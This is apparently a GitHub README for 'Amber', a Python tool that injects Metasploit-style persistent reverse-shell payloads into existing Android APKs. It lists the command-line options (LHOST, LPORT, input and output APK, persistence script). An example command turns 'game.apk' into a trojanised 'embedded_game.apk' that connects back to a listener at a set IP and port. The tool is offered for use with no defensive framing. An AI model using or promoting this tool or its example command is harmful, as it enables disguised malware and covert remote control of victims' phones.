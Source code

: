 # Amber

Amber is a Python library used for making embedded android payloads capable of a persistence shell.To be used with Metasploit

## Usage
Usage: python amber [options] [options]

  Options:
  
  -l [ipadr], --LHOST [ipadr]: Set the lhost ipaddress of the payload
  
  -p [port],  --LPORT [port] : Set the port which the payload communicates to
  
  -i [file_location], --input [file_location] : The input file location
  
  -o [destination_location], --output [destination_location] : The output file name and location,defaults to
                                                               the program directory saved as output.apk
                                                               
  -s [destination_location], --script_out [destination_location] : The location of the persistence script to be saved to,defaults to program
                                                                   directory saved as script.sh Note! this should end in '.sh' with filename
                                                                   
  -h, --help : Displays this help dialogue

## Example
python amber.py --LHOST 192.168.43.2 --LPORT 8888 --input game.apk --output embedded_game.apk --script_out "~/Desktop/script.sh" 


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

